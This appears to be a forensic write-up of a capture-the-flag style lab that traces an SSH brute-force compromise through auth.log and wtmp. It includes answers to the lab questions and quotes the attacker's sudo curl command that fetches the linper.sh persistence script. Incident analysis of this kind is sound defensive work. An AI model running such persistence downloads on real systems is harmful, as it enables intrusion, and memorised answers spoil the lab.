 ```yaml
---
layout: default
---
```


[go back](../)

# Incident Response and Forensic Analysis on SSH Brute-Force Attack

## Scenario
You will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Goal
The goal is to analyze the auth.log and the wtmp log files and answer the following questions as part of the incident response.

## Response

*Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?*

It appears that the IP 65.2.161.68 continuously keeps failing to authenticate. These logs show someone trying to log in as admin, and the system saying that there is no user admin. These failed login run from 06:31:33 to 06:31:42, suggesting a brute force tool or script is running, as a user at the keyboard could not type that fast:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/9de73f1f-2085-4d7c-8c9b-5e7dce21dc89)

*The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?*

Successful authentication as the user `root` at 06:32:44:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/d93da765-46b4-40d2-8fb7-57972efc20b1)

*Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?*

2024-03-06 06:32:45

*SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?*

37

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/c543c85a-d4a6-465d-bbcc-c7d64c4478bc)

*The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?*

cyberjunkie.

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/1531bc2f-6cad-4d58-af23-677b6c24ce55)

*What is the MITRE ATT&CK sub-technique ID used for persistence?*

[T1136.001](https://attack.mitre.org/techniques/T1136/001/)

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/78b15345-d619-4edb-b589-fb27cd95a572)

*How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)*

Total time of the session is 06:32:45 - 06:37:24, so, 279 seconds

*The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?*

`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/2265c87d-7012-445c-a50f-c3169a048d31)
